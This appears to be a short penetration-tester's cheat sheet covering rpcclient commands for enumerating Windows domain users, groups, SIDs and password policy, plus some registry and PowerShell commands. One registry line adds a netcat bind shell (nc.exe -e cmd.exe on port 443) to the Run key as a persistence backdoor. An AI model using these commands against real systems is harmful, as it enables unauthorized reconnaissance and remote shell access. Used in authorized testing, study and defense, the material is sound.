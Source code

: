 <div class="block-inline" markdown="1">

MS-RPC commands

``` bash
rpcclient -U "DOMAIN\username%passwd" 10.0.0.2

help # !!!

 # netlogon
dsr_getdcname # get DC info
dsr_enumtrustdom # get domain trust info (e.g. forest)

 # lsarpc
lsaquery # get domain name and SID
lookupsids <SID> # resolve sid to name
lookupnames <name> # resolve name to sid

 # samr - Win10 Anniversary edition locked this down
enumdomains # domains in local SAM
enumdomusers # net user

enumalsgroups builtin # query local groups
enumdomgroups # net group
queryaliasmem builtin 0x220 # 0x220 == 544
    # get users in local administrators group

query user <rid>/<name> # net user <user>
querygroupmem <rid> # net group <group>

getdompwinfo # get password complexity policy
```
</div>

<div class="block-inline" markdown="1">
*registry manipulation*

``` powershell
reg query HKLM\software\microsoft\windows\currentversion\run
reg query HKLM\software\microsoft\windows\currentversion\run /ve # default value
reg query HKLM\software\microsoft\windows /f "Adobe\OOBE" /s [/e] [/c]
reg add HKLM\software\microsoft\windows\currentversion\run /v nc /d 'C:\scripts\nc.exe -nvlp 443 -e cmd.exe'
reg query HKLM\software\microsoft\windows\currentversion\run /v nc
```
</div>

<div class="block-inline" markdown="1">
*some powershell triks*

``` powershell
get-hotfix | out-gridview
```
</div>
